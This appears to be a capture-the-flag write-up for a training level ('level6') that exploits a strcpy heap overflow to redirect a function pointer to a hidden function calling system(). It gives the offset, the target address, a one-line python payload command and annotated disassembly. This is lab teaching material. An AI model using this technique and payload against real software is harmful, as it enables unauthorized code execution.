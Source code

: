 - attack: buffer overflow
- binary behavior: segfault without parameter, Nope with parameter
- targeted functions: n, m and main
- vulnerability in n: strcpy() in comparison strncpy() has no limitimg argument
- defense: function n with system call is non-called

Method:
- find the overflow size of strcpy
- find eip offest size after overwloing strcpy
- find the address of n function
- overflow and change eip address by n address
 
Info:
- offset size - 72
- 08048454 - address of n function
- same in hex - \x54\x84\x04\x08


Code:
objdump -d ./level6
gdb level6
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3
./level6 $(python -c 'print "b" * 72 + "\x54\x84\x04\x08"') 
Functions

0804847c <main>:
 804847c:       55                      push   %ebp
 804847d:       89 e5                   mov    %esp,%ebp
 804847f:       83 e4 f0                and    $0xfffffff0,%esp
 8048482:       83 ec 20                sub    $0x20,%esp
 8048485:       c7 04 24 40 00 00 00    movl   $0x40,(%esp)
 804848c:       e8 bf fe ff ff          call   8048350 <malloc@plt>
 8048491:       89 44 24 1c             mov    %eax,0x1c(%esp)
 8048495:       c7 04 24 04 00 00 00    movl   $0x4,(%esp)
 804849c:       e8 af fe ff ff          call   8048350 <malloc@plt>
 80484a1:       89 44 24 18             mov    %eax,0x18(%esp)
 80484a5:       ba 68 84 04 08          mov    $0x8048468,%edx
 80484aa:       8b 44 24 18             mov    0x18(%esp),%eax
 80484ae:       89 10                   mov    %edx,(%eax)
 80484b0:       8b 45 0c                mov    0xc(%ebp),%eax
 80484b3:       83 c0 04                add    $0x4,%eax
 80484b6:       8b 00                   mov    (%eax),%eax
 80484b8:       89 c2                   mov    %eax,%edx
 80484ba:       8b 44 24 1c             mov    0x1c(%esp),%eax
 80484be:       89 54 24 04             mov    %edx,0x4(%esp)
 80484c2:       89 04 24                mov    %eax,(%esp)
 80484c5:       e8 76 fe ff ff          call   8048340 <strcpy@plt> # vulnerability
 80484ca:       8b 44 24 18             mov    0x18(%esp),%eax
 80484ce:       8b 00                   mov    (%eax),%eax
 80484d0:       ff d0                   call   *%eax
 80484d2:       c9                      leave
 80484d3:       c3                      ret

08048454 <n>:
 8048454:       55                      push   %ebp
 8048455:       89 e5                   mov    %esp,%ebp
 8048457:       83 ec 18                sub    $0x18,%esp
 804845a:       c7 04 24 b0 85 04 08    movl   $0x80485b0,(%esp)
 8048461:       e8 0a ff ff ff          call   8048370 <system@plt> #exploit
 8048466:       c9                      leave
 8048467:       c3                      ret

08048468 <m>:
 8048468:       55                      push   %ebp
 8048469:       89 e5                   mov    %esp,%ebp
 804846b:       83 ec 18                sub    $0x18,%esp
 804846e:       c7 04 24 d1 85 04 08    movl   $0x80485d1,(%esp)
 8048475:       e8 e6 fe ff ff          call   8048360 <puts@plt> # prints Nope
 804847a:       c9                      leave
 804847b:       c3                      ret

